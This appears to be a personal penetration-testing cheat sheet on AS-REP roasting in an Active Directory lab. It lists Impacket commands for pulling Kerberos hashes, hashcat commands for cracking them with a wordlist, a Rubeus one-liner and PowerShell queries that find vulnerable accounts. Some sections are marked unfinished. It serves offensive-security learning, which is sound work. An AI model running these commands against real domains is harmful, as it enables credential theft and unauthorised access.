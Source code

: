 # ASREP Roasting
## Impacket Method
```
impacket-GetNPUsers -outputfile asrep_hashes.txt -dc-ip 10.0.1.10 'attacklab.local/Phoebe Chillax:summer2021!'
Impacket v0.9.24.dev1+20210827.162957.5aa97fa7 - Copyright 2021 SecureAuth Corporation

Name           MemberOf  PasswordLastSet             LastLogon                   UAC
-------------  --------  --------------------------  --------------------------  --------
AsrepRoast Me            2021-08-31 23:34:05.248118  2021-09-01 00:11:29.299171  0x400200
```
Hashcat is supposed to support compressed wordlists, but it did not work for me
```
cd /usr/share/wordlists/
gzip -d rockyou.txt.gz
```
Crack the hashes
```
hashcat -m 18200 -o cracked_hash.txt asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```
### View Cracked Hashes

via Hashcat
```
hashcat -m 18200 --show asrep_hashes.txt
```
or just cat the output file
```
cat cracked_hash.txt
[SNIP]:P@ssw0rd!
```

## Rubeus Method
TODO: Finish documenting this

```
Rubeus.exe asreproast
```
Then use the same method to crack them via Hashcat

## Identify Accounts for ASREP Roasting via Powershell
TODO: Document this better
```
Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol | Format-Table name
```
```
(Get-ACL "AD:$((Get-ADUser -Filter 'useraccountcontrol -band 4194304').distinguishedname)").access
```